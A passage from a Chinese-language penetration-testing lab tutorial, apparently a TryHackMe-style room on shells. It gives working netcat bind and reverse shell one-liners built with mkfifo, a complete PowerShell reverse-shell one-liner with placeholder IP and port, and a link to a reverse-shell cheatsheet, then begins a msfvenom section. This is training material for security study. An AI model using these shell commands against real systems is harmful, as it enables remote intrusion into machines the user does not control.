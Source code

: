 使用 netcat 连接到上述侦听器将在目标上生成一个 bind shell。 同样，对于反向 shell，使用 `nc <LOCAL-IP> <PORT> -e /bin/bash` 回连将导致目标上的反向 shell。

然而，这并没有包含在大多数版本的 netcat 中，因为它被广泛认为是非常不安全的（这很有趣，是吧？）。在几乎总是需要静态二进制文件的 Windows 上，此技术将非常有效。然而，在 Linux 上，我们将改为用此代码创建一个 bind shell 侦听器： 
```bash
mkfifo /tmp/f; nc -lvnp <端口> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm/tmp/f 

```
以下段落是对该命令的技术解释。它略高于这个房间的高度，所以如果你现在看不懂也没关系——命令本身才是最重要的。 该命令首先在 `/tmp/f ` 中创建[命名管道](https://www.linuxjournal.com/article/2156)。然后它启动一个 netcat 侦听器，并将侦听器的输入连接到命名管道的输出。 netcat 侦听器的输出（即我们发送的命令）然后直接通过管道传输到 `sh`，将 stderr 输出流发送到 stdout，并将 stdout 本身发送到命名管道的输入，从而完成循环。 

![](https://i.imgur.com/2vy6cXk.png)


可以使用一个非常相似的命令来发送 netcat 反向 shell： 
```bash
mkfifo /tmp/f; nc <本地IP> <端口> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm/tmp/f 
```
除了使用 netcat connect 语法而不是 netcat listen 语法之外，此命令实际上与前一个命令相同。
    
![](https://i.imgur.com/QDLQ1Fa.png)

以现代 Windows Server 为目标时，通常需要 Powershell 反向 shell，因此我们将在此处介绍标准的单行 PSH 反向 shell。 这个命令比较复杂，这里为了简单起见就不直接说明了。然而，它是一种非常有用的单行线，可以随身携带：

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```




为了使用它，我们需要用适当的 IP 和端口选择替换“\<IP\>”和“\<port\>”。然后可以将其复制到 cmd.exe shell（或在 Windows 服务器上执行命令的另一种方法，例如 webshell）并执行，从而产生反向 shell：
    
![](https://i.imgur.com/yXXTr0O.png)
    
对于其他常见的反向 shell payload，[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 是一个存储库，其中包含多种不同语言的 shell 代码（通常是用于复制和粘贴的单行格式）。阅读链接页面以查看可用内容非常值得。
    
**回答以下问题：**
1. 在 Linux 中可以使用什么命令来创建命名管道？
    
2. 查看链接的 Payloads all Things Reverse Shell Cheatsheet 并熟悉可用的语言。

### 2.9 msfvenom

Msfvenom：所有和 payload 相关事物的一站式商店

作为 Metasploit 框架的一部分，msfvenom 主要用于生成反向 shell 和正向 shell。同时 msfvenom 也广泛用于低水平的 exploit 开发，比如在开发一些用于缓冲区溢出的 expolit 时生成十六进制 shellcode。 然而，msfvenom 也可以用于 生成多种格式的 payloads，比如 .exe、.apsx、.war、.py 等。

